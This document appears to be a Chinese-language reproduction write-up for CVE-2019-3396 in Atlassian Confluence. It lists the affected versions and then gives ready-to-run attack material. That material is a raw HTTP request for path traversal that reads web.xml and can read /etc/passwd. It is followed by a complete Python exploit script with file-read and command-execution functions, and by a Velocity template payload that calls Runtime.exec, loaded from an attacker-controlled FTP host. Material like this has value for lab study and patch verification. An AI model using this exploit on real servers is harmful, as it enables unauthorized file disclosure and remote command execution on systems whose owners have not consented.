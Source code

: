 # CVE-2019-3396 Confluence 路径穿越与命令执行漏洞

## 一、漏洞简介

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

## 二、漏洞影响

* Confluence 1.*.*、2.*.*、3.*.*、4.*.*、5.*.*
* Confluence 6.0.*、6.1.*、6.2.*、6.3.*、6.4.*、6.5.*
* Confluence 6.6.* < 6.6.12
* Confluence6.7.*、6.8.*、6.9.*、6.10.*、6.11.*
* Confluence 6.12.* < 6.12.3
* Confluence 6.13.* < 6.13.3
* Confluence 6.14.* < 6.14.2

## 三、复现过程

发送如下数据包，即可读取文件web.xml：


```bash
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

![](images/15889489410980.png)


6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![](images/15889489588921.png)


**poc**

首先需要一台外网的服务器


```
1.使用FTP加载vm文件  
2.修改filename为自己的vm文件路径，例如 filename = "ftp://192.168.50.181/rce.vm"  
3.python CVE-2019-3396.py [http://ip:port](http://ip) "whoami"
```

CVE-2019-3396.py


```python
# -*- coding: utf-8 -*-
import re
import sys
import requests

def _read(url):
    result = {}
    # filename = "../web.xml"
    filename = 'file:////etc/group'

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

    return m[0]

def _exec(url,cmd):
    result = {}
    filename = "ftp://192.168.50.181/rce.vm"

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

    return m[0]

if __name__ == '__main__':
    url = sys.argv[1]
    cmd = sys.argv[2]
    print _exec(url,cmd)
```

rce.vm


```bash
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

参考链接

https://vulhub.org/#/environments/confluence/CVE-2019-3396/
